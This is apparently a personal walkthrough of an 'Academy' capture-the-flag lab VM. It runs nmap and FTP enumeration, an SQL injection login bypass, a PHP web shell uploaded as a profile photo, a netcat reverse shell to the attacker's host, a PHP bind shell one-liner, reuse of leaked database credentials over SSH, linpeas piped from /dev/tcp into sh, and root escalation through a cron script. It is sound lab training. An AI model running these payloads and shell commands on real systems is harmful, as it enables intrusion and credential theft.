# Academy VM lab

## Enumerate with nmap

```
parrot# nmap -Pn -sV -O 192.168.1.111               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 11:12 +07
Nmap scan report for 192.168.1.111
Host is up (0.00017s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:3E:CE:D9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.75 seconds

```

### FTP protocol

```
parrot# nmap -sC -p 21 192.168.1.111
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 11:15 +07
Nmap scan report for 192.168.1.111
Host is up (0.00019s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
MAC Address: 08:00:27:3E:CE:D9 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.98 seconds
```

Woh it allow anonymous login and has `note.txt` let's try

```
parrot# ftp 192.168.1.111
Connected to 192.168.1.111.
220 (vsFTPd 3.0.3)
Name (192.168.1.111:annibuliful): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||25318|)
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||43523|)
150 Opening BINARY mode data connection for note.txt (776 bytes).
100% |****************************************************************************************|   776      259.70 KiB/s    00:00 ETA
226 Transfer complete.
776 bytes received in 00:00 (231.11 KiB/s)
ftp> exit
221 Goodbye.
parrot# cat note.txt 
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
```
it seems I found the golden information I will use it to access later let's focus on FTP. focus on ftp software and version `vsftpd 3.0.3`
and I found few things 
- [Remote denial service](https://www.exploit-db.com/exploits/49719)
- [upload backdoor with metasploit](https://github.com/amdorj/vsftpd-3.0.3-infected/blob/master/amdorj_vsftpd_backdoor.rb)

I think upload backdoor seems interesting so I update metasploit module by add new one to `exploit` module

```
[msf](Jobs:0 Agents:0) >> https://github.com/amdorj/vsftpd-3.0.3-infected/blob/master/amdorj_vsftpd_backdoor.rb
[-] Unknown command: https://github.com/amdorj/vsftpd-3.0.3-infected/blob/master/amdorj_vsftpd_backdoor.rb
[msf](Jobs:0 Agents:0) >> wget https://github.com/amdorj/vsftpd-3.0.3-infected/blob/master/amdorj_vsftpd_backdoor.rb
[*] exec: wget https://github.com/amdorj/vsftpd-3.0.3-infected/blob/master/amdorj_vsftpd_backdoor.rb

--2024-05-06 12:06:02--  https://github.com/amdorj/vsftpd-3.0.3-infected/blob/master/amdorj_vsftpd_backdoor.rb
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘amdorj_vsftpd_backdoor.rb’

amdorj_vsftpd_backdoor.rb             [     <=>                                                   ] 354.18K   266KB/s    in 1.3s    

2024-05-06 12:06:05 (266 KB/s) - ‘amdorj_vsftpd_backdoor.rb’ saved [362684]

[msf](Jobs:0 Agents:0) >> ls
[*] exec: ls

1-enumeration.md  2-basic-exploitation.md  2-manual-exploit  3-capstone  amdorj_vsftpd_backdoor.rb  note.txt
[msf](Jobs:0 Agents:0) >> cp amdorj_vsftpd_backdoor.rb /usr/share/metasploit-framework/modules/exploits/linux/ftp
[*] exec: cp amdorj_vsftpd_backdoor.rb /usr/share/metasploit-framework/modules/exploits/linux/ftp/amdorj_vsftpd_backdoor.rb
```

but it seems not work
```
[msf](Jobs:0 Agents:0) >> use exploit/linux/ftp/
use exploit/linux/ftp/amdorj_vsftpd_backdoor  use exploit/linux/ftp/proftp_telnet_iac
use exploit/linux/ftp/proftp_sreplace         
[msf](Jobs:0 Agents:0) >> use exploit/linux/ftp/amdorj_vsftpd_backdoor 
[*] No payload configured, defaulting to cmd/unix/interact
[msf](Jobs:0 Agents:0) exploit(linux/ftp/amdorj_vsftpd_backdoor) >> ls
[*] exec: ls

1-enumeration.md	 2-manual-exploit  amdorj_vsftpd_backdoor.rb	note.txt
2-basic-exploitation.md  3-capstone	   amdorj_vsftpd_backdoor.rb.1
[msf](Jobs:0 Agents:0) exploit(linux/ftp/amdorj_vsftpd_backdoor) >> options

Module options (exploit/linux/ftp/amdorj_vsftpd_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metas
                                       ploit.html
   RPORT    21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(linux/ftp/amdorj_vsftpd_backdoor) >> set rhosts 192.168.1.111
rhosts => 192.168.1.111
[msf](Jobs:0 Agents:0) exploit(linux/ftp/amdorj_vsftpd_backdoor) >> exploit

[-] 192.168.1.111:21 - Banner: 220 (vsFTPd 3.0.3)
[*] 192.168.1.111:21 - USER: 331 Please specify the password.
^C[*] Exploit completed, but no session was created.
[msf](Jobs:0 Agents:0) exploit(linux/ftp/amdorj_vsftpd_backdoor) >> 

```

So I change plan to use brute force attack to get with username/password by using hydra instead

`hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.110`

OK the result is timeout I think it should be done

### SSH Protocol
I know from nmap result
`OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)`

I need more information so I try with nse script for ssh
```
parrot# nmap -sC -p 22 192.168.1.111
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 12:27 +07
Nmap scan report for 192.168.1.111
Host is up (0.00030s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
MAC Address: 08:00:27:3E:CE:D9 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds 
```

it seem nothing much about it and I try to find the exploit but it already patched. 

it allow brute force attack
```
parrot# ssh root@192.168.1.111
The authenticity of host '192.168.1.111 (192.168.1.111)' can't be established.
ED25519 key fingerprint is SHA256:eeNKTTakhvXyaWVPMDTB9+/4WEg6WKZwlUp0ATptgb0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.111' (ED25519) to the list of known hosts.
root@192.168.1.111's password: 
Permission denied, please try again.
root@192.168.1.111's password: 

```
but I might do it later

## HTTP protocol
it show onlye default page of apache
```
parrot# nmap -sC -p 80 192.168.1.111
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 12:41 +07
Nmap scan report for 192.168.1.111
Host is up (0.00023s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:3E:CE:D9 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.41 seconds
```

so I will fuzzing to find some interesting paths with `dirbuster` then I found hidden CMS path

```
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /icons/ - 403
Dir found: /icons/small/ - 403
Dir found: /academy/ - 200
File found: /academy/index.php - 200
Dir found: /academy/assets/ - 200
Dir found: /academy/admin/ - 200
File found: /academy/admin/index.php - 200
Dir found: /phpmyadmin/ - 200
File found: /phpmyadmin/index.php - 200
```

then let's go back to `note.txt` that I found information about student login
- username = 10201321
- hash password = cd73502828457d15655bbd7a63fb0bc8
- cracked password = cd73502828457d15655bbd7a63fb0bc8 : student
- pin code = 777777

let's start with `burbsuite` to intercept request
then I use the basic SQL injection to check

```
POST /academy/ HTTP/1.1
Host: 192.168.1.111
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.1.111/academy/
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://192.168.1.111
DNT: 1
Connection: close
Cookie: PHPSESSID=n04v4rs05h4r6g3c0pro3mm8n6
Upgrade-Insecure-Requests: 1

regno=%27+OR+1+%3D+1+--+-&password=a&submit=
```

so I don't waste the time to manually sql injection I use sqlmap
`sqlmap -r request.txt` it seem perfect to dump all data

for the time being I try to find another shorter way to attack it

I found that this CMS allow user upload photo file



I think it might cause by uploading arbitary code for reverse shell

`<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>`

Then I got the shell





next step I need to make it reverse shell back to my local `netcat` listener first I need to know what prompt process



I use this command to send back to my netcat listener

`nc 192.168.1.103 9001 -e sh` 

but it seem does work with unstable shell so I change plan to use php bind shell instead

```
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",9001);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}}'
```

then I got the shell



Next step after I found mysql config I try to ssh with username/password

```
<pre><?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");


?>
</pre>
```

Got the shell~~~



Next I need to use linpeas for privilege escalation

`curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`

Then I use to run sh on target without curl

```
sudo nc -q 5 -lvnp 9999 < linpeas.sh #Host
cat < /dev/tcp/192.168.1.103/9999 | sh #Victim
```



Sadly it does not



So I try to use `backup.sh` in the grimmie account instead



and wait util this `backup.sh` will run by crontab with root access



wait a minute



I get the flag
